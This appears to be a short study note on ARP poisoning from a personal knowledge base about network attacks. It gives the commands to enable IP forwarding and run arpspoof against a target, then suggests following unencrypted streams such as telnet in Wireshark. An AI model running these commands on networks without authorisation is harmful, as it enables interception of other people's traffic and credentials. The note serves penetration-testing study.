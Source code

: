 ```yaml
---
up: "[[Network-Based Attacks]]"
---
```


# ARP Poisoning

```bash
# enable ip forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth1 -t <ip> -r <ip>
```

Then look at Wireshark capture to follow unsecure streams like telnet.
